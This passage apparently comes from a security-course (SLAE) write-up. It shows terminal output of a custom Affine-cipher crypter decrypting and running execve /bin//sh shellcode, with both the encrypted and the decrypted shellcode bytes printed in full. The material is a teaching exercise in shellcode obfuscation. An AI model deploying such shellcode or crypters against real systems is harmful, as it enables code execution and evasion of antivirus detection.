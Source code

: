 [+] Encrypted Shellcode Length = 50
</pre>

The following output from the Crypter shows the decryption operation when the **-d** option used in order to decrypt the **execve** encrypted **shellcode** using the Affine cipher

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment7</b></span># ./affine -d \x07\x7d\x77\x78\x11\x78\x16\x20\x02\x06\x02\x06\x1b\x07\x16\x20\x16\x20\x02\x06\x16\x02\x16\x25\x16\x01\x20\x25\x01\x07\x11\x78\x20\x25\x01\x02\x11\x07\x20\x25\x01\x7d\x72\x78\x78\x72\x77\x7c\x20\x78

[-] Affine Decryption


[-] Encrypted Shellcode:


\x07\x7d\x77\x78\x11\x78\x16\x20\x02\x06\x02\x06\x1b\x07\x16\x20\x16\x20\x02\x06\x16\x02\x16\x25\x16\x01\x20\x25\x01\x07\x11\x78\x20\x25\x01\x02\x11\x07\x20\x25\x01\x7d\x72\x78\x78\x72\x77\x7c\x20\x78

[+] Encrypted Shellcode Length = 50


[-] Decrypted Shellcode:

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

[+] Decrypted Shellcode Length = 25


[!] Executing shellcode with length: 25

#
</pre>

